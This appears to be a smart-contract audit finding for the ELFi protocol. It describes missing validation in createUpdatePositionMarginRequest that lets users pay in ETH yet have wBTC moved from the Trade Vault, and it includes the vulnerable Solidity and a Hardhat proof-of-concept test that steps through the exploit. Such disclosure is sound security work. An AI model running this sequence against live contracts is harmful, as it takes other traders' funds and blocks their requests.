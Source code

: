Overt Fiery Starfish

high

# Users can use weth to replace any margin token in createUpdatePositionMarginRequest()

## Summary
Function `createUpdatePositionMarginRequest` lack enough input validation. This will cause users can use weth as any margin tokens to earn profits or block other users' normal request.

## Vulnerability Detail
In function `createUpdatePositionMarginRequest`, users will transfer some tokens if they want to increase their position's init margin amount. If `params.isNativeToken` is true, users need to transfer WETH, otherwise, users need to transfer margin token.

The vulnerability is that when we create one request via `createUpdatePositionMarginRequest`, `params.marginToken` is used as `request.marginToken`. So if the input `params.isNativeToken` is true and `params.marginToken` is not WETH, for example, the updated position is one wBTC position, we will transfer some amount of ether to the Trade Vault when we create one request, and then when the keeper execute the request, system will transfer the same amount of wBTC to LP Pool. 
In normal cases, the request cannot be executed successfully, because there is not enough wBTC in Trade Vault. However, considering that there are lots of request now, and traders are transferring their wBTC to Trade Vault, the hacker can make use of this vulnerability to use WETH to get the same amount of other tokens.

```javascript
    function createUpdatePositionMarginRequest(UpdatePositionMarginParams calldata params) external payable override {
        ......
        if (params.isAdd) {
            require(!params.isNativeToken || msg.value == params.updateMarginAmount, "Deposit eth amount error!");
            AssetsProcess.depositToVault(
                AssetsProcess.DepositParams(
                    account,
                    params.isNativeToken ? AppConfig.getChainConfig().wrapperToken : params.marginToken,
                    params.updateMarginAmount,
                    AssetsProcess.DepositFrom.ORDER,
                    params.isNativeToken
                )
            );
        }
       ......
        PositionMarginProcess.createUpdatePositionMarginRequest(
            account,
            params,
            updateMarginAmount,
            isExecutionFeeFromTradeVault
        );
    }
```
```javascript
    function createUpdatePositionMarginRequest(
        address account,
        IPosition.UpdatePositionMarginParams memory params,
        uint256 updateMarginAmount,
        bool isExecutionFeeFromTradeVault
    ) external {
        uint256 requestId = UuidCreator.nextId(UPDATE_MARGIN_ID_KEY);
        UpdatePositionMargin.Request storage request = UpdatePositionMargin.create(requestId);
        request.account = account;
        request.positionKey = params.positionKey;
        request.marginToken = params.marginToken;
        request.updateMarginAmount = updateMarginAmount;
        request.isAdd = params.isAdd;
        request.isExecutionFeeFromTradeVault = isExecutionFeeFromTradeVault;
        request.executionFee = params.executionFee;
        request.lastBlock = ChainUtils.currentBlock();
        emit CreateUpdatePositionMarginEvent(requestId, request);
    }
```
```javascript
    function updatePositionMargin(uint256 requestId, UpdatePositionMargin.Request memory request) external {
        Position.Props storage position = Position.load(request.positionKey);
        .......
        Symbol.Props memory symbolProps = Symbol.load(position.symbol);
        Account.Props storage accountProps = Account.load(request.account);
        //add margin, transfer from vault to LP Pool
        if (request.isAdd) {
            AddPositionMarginCache memory cache;
            cache.stakeToken = symbolProps.stakeToken;
            cache.addMarginAmount = request.updateMarginAmount;
            cache.marginTokenDecimals = TokenUtils.decimals(position.marginToken);
            cache.marginTokenPrice = OracleProcess.getLatestUsdUintPrice(position.marginToken, !position.isLong);
            cache.isCrossMargin = false;
            _executeAddMargin(position, cache);
            VaultProcess.transferOut(
                IVault(address(this)).getTradeVaultAddress(),
                request.marginToken,
                symbolProps.stakeToken,
                cache.addMarginAmount
            );
            position.emitPositionUpdateEvent(requestId, Position.PositionUpdateFrom.ADD_MARGIN, 0);
```

### Poc
Add this test in increaseMarketOrder.test.ts, the procedure is like:
- User0 open one Long BTC position.
- User1 open one Long BTC position.
- User0 create one update margin request, with `isNative` = true, transfer ETHER to Trade Vault
- User1 create one normal update margin request, transfer wBTC to the Trade Vault.
- Keeper execute user0's request, transfer wBTC to LP Pool.
- If there's no enough wBTC balance in Trade Vault, user1's request cannot be executed.

```javascript
  it.only('Case2: update margin request', async function () {
    // Step 1: user0 create one position BTC
    console.log("User0 Long BTC ");
    const orderMargin1 = precision.token(1, 17) // 0.1BTC
    const btcPrice1 = precision.price(50000)
    const btcOracle1 = [{ token: wbtcAddr, minPrice: btcPrice1, maxPrice: btcPrice1 }]
    const executionFee = precision.token(2, 15)

    await handleOrder(fixture, {
      orderMargin: orderMargin1,
      oracle: btcOracle1,
      marginToken: wbtc,
      account: user0,
      symbol: btcUsd,
      executionFee: executionFee,
    })
    // Step 2: user1 create one position BTC
    console.log("User1 Long BTC");
    await handleOrder(fixture, {
      orderMargin: orderMargin1,
      oracle: btcOracle1,
      marginToken: wbtc,
      account: user1,
      symbol: btcUsd,
      executionFee: executionFee,
    })
    // Step 3: user0
    console.log("User0 update position")
    // user0 use weth
    let positionInfo = await positionFacet.getSinglePosition(user0.address, btcUsd, wbtcAddr, false)
    console.log(positionInfo.key);
    console.log(positionInfo.initialMargin);
    let tx = await positionFacet.connect(user0).createUpdatePositionMarginRequest(
      {
        positionKey: positionInfo.key,
        isAdd: true,
        isNativeToken: true,
        marginToken: wbtc,
        updateMarginAmount: precision.token(1, 17),
        executionFee: executionFee,
      },
      {
        value: precision.token(1, 17),
      },
    )

    await tx.wait()

    // Step 3.1 check
    const wethTradeVaultBalance = BigInt(await weth.balanceOf(tradeVaultAddr))
    console.log("WETH in trade vault: ", wethTradeVaultBalance);
    let requestId = await marketFacet.getLastUuid(UPDATE_MARGIN_ID_KEY)
    console.log("Request Id: ", requestId);
    // Step 4: user1
    console.log("User1 update position")
    // user1 use wbtc
    positionInfo = await positionFacet.getSinglePosition(user1.address, btcUsd, wbtcAddr, false)
    console.log(positionInfo.key);
    console.log(positionInfo.initialMargin);
    wbtc.connect(user1).approve(diamondAddr, precision.token(1, 17))

    tx = await positionFacet.connect(user1).createUpdatePositionMarginRequest(
      {
        positionKey: positionInfo.key,
        isAdd: true,
        isNativeToken: false,
        marginToken: wbtc,
        updateMarginAmount: precision.token(1, 17),
        executionFee: executionFee,
      },
      {
        value: executionFee,
      },
    )

    await tx.wait()
    // Step 3.1 check
    let wbtcTradeVaultBalance = BigInt(await wbtc.balanceOf(tradeVaultAddr))
    console.log("wbtc in trade vault: ", wbtcTradeVaultBalance);

    // Step 5: execute user0 update request
    const tokenPrice = precision.price(50000)
    const oracle = [{ token: wbtcAddr, targetToken: ethers.ZeroAddress, minPrice: tokenPrice, maxPrice: tokenPrice }]
    tx = await positionFacet.connect(user3).executeUpdatePositionMarginRequest(requestId, oracle)
    await tx.wait()
    wbtcTradeVaultBalance = BigInt(await wbtc.balanceOf(tradeVaultAddr))
    console.log("wbtc in trade vault: ", wbtcTradeVaultBalance);
  })
```
## Impact
- Users can use Ether to get the same amount of other tokens. This may get some profits.
- Other users' normal request may be blocked and may not be cancelled because there is not enough balance to return back.

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/PositionFacet.sol#L22-L59

## Tool used

Manual Review

## Recommendation
Add the related input validation. If `isNative` is true, we need to make sure the related position's margin token is WETH.